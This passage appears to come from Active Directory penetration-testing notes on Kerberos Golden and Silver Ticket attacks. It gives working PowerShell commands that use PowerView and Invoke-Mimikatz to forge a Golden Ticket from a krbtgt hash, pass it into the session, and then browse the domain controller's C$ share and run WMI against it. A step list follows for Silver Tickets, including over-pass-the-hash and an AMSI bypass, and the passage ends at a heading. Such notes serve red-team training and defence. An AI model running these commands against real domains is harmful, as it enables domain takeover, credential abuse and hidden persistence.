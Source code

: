 ```powershell
```

+ Now on any machine even if it is not part of the domain but can reach DC over network, we can use the information from the krbtgt hash to create a Golden Ticket.

```powershell
#Note the admin SID
. .\PowerView.ps1
Get-DomainSID -Administrator

#Load the krbtg hash
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain-name-here /sid:admin-sid-here /krbtgt:krbtg-hash-here id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
 
+ Now we can explore the DC file system and execute WMI commands

```powershell
ls \\star-dc\C$\
gwmi -Class win32_computersystem -ComputerName star-dc
```

# <span style="color:lightblue">Silver Ticket</span>

* We will be abusing the 5th step in the Kerberos system with the help of a silver ticket.
* A valid TGS (Golden ticket is TGT).
* Encrypted and Signed by the NTLM hash of the service account (Golden ticket is signed by hash of krbtgt) of the service running with that account.
* Services rarely check PAC (Privileged Attribute Certificate).
* Services will allow access only to the services themselves.
* Reasonable persistence period (default 30 days for computer accounts).

List of SPN's : https://adsecurity.org/?page_id=183

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Get a Powershell session as a **"domain admin"** using **"Over pass the hash"** attack
- [x] 2. Create a **New-PSSession** attaching to the **"domain controller"**
- [x] 3. Enter the new session using **Enter-PSSession** 
- [x] 4. Bypass the *AMSI* 
- [x] 5. Exit
- [x] 6. Load **Mimikatz.ps1** on the new session using **Invoke-command**
- [x] 7. Enter the new session using **Enter-PSSession** *again*
- [x] 8. Now we can execute mimikatz on the DC
- [x] 9. Keep note of **krbtgt** hash
- [x] 10. Request access for service of DC using the rc4 hash
- [x] 11. Schedule and execute a task

## <span style="color:lightgreen">Invoke-Mimikatz</span>
### <span style="color:#F1C232">1. Execute mimikatz on DC as DA to get krbtgt hash</span>
 